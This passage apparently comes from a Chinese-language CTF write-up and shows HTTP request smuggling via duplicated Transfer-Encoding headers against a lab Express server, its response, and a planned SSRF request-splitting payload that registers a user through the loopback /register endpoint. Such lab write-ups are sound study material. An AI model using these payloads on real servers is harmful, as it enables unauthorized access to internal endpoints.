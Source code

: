      * Request

       ```http
       POST /api/weather HTTP/1.1
       Host: 139.59.183.166:32654
       Transfer-Encoding: chunked
       Transfer-Encoding: what-ever-maybe-cat
       
       1
       A
       0
       
       POST /register HTTP/1.1
       Host: 127.0.0.1
       foo: x
       
       
       ```

     * Response

       ```http
       HTTP/1.1 200 OK
       X-Powered-By: Express
       Content-Type: application/json; charset=utf-8
       Content-Length: 32
       ETag: W/"20-AgZSNwaB3tl777q9b3WtS9FZSXg"
       Date: Tue, 18 May 2021 03:38:15 GMT
       Connection: keep-alive
       
       {"message":"Missing parameters"}HTTP/1.1 401 Unauthorized
       X-Powered-By: Express
       Date: Tue, 18 May 2021 03:38:15 GMT
       Connection: keep-alive
       Content-Length: 0
       ```

     * 证明存在漏洞，但是此时`/register`接口仍然不被服务端看作从回环地址发起，因此需要通过`/api/weather`的SSRF漏洞发起请求

   * 发现NodeJS的v8版本存在拆分攻击漏洞

     * 期望SSRF发起的请求

       ```http
       GET /data/2.5/weather?q= HTTP/1.1
       Host:127.0.0.1
       
       POST /register HTTP/1.1
       Host:127.0.0.1
       Content-Type: application/x-www-form-urlencoded
       Content-Length: 29
       
       username=1001&password=123456
       
       GET /,bbb&units=metric&appid=xxx HTTP/1.1
       Host: 127.0.0.1
       Connection: close
       ```
